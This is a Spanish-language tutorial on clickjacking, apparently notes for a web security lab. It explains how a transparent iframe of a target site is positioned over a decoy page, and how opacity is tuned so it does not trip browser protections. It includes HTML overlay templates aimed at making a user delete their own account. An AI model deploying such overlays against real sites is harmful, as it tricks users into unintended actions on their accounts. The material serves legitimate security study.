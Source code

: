 ```html
</head>
...
<body>
<div id="decoy_website">
...decoy web content here...
</div>
<iframe id="target_website" src="https://vulnerable-website.com"> </iframe>
</body>
```

**El iframe del sitio web de destino se coloca dentro del navegador para que haya una superposición precisa de la acción de destino con el sitio web de señuelo utilizando los valores de posición de ancho y alto adecuados**. Los valores de posición absoluta y relativa se utilizan para garantizar que el sitio web de destino se superponga con precisión al señuelo, independientemente del tamaño de la pantalla, el tipo de navegador y la plataforma. El índice z determina el orden de apilamiento de las capas de iframe y sitio web. El valor de opacidad se define como 0,0 (o cerca de 0,0) para que el contenido del iframe sea transparente para el usuario. La protección contra el secuestro de clics del navegador podría aplicar una detección de transparencia de iframe basada en umbrales (por ejemplo, la versión 76 de Chrome incluye este comportamiento, pero Firefox no). El atacante selecciona valores de opacidad para que se logre el efecto deseado sin desencadenar comportamientos de protección.

<br />

**Laboratorio 1: Basic clickjacking with CSRF token protection**

Este laboratorio contiene una funcionalidad de logeo y de borrado de usuarios a través de un botón que está protegido por un CSRF token. Para resolver el laboratorio debemos hacer que un usuario borre su propia cuenta.

Vamos a llevar a cabo un ataque de clickjackin. Es decir, vamos a construir un HTML que va a colocarse justo debajo del html de la página de forma que cuando un usuario pulse un botón también pulse otro que desencadene una acción maliciosa de forma subrepticia.

```html
<style>
iframe {
position:relative;
width:$width_value;
height: $height_value;
opacity: $opacity;
z-index: 2;
}
div {
position:absolute;
top:$top_value;
left:$side_value;
z-index: 1;
}
</style>
<div>Test me</div>
<iframe src="$url"></iframe>
```

Utilizamos el marco iframe para diseñar un botón oculto con una serie de dimensiones y características.
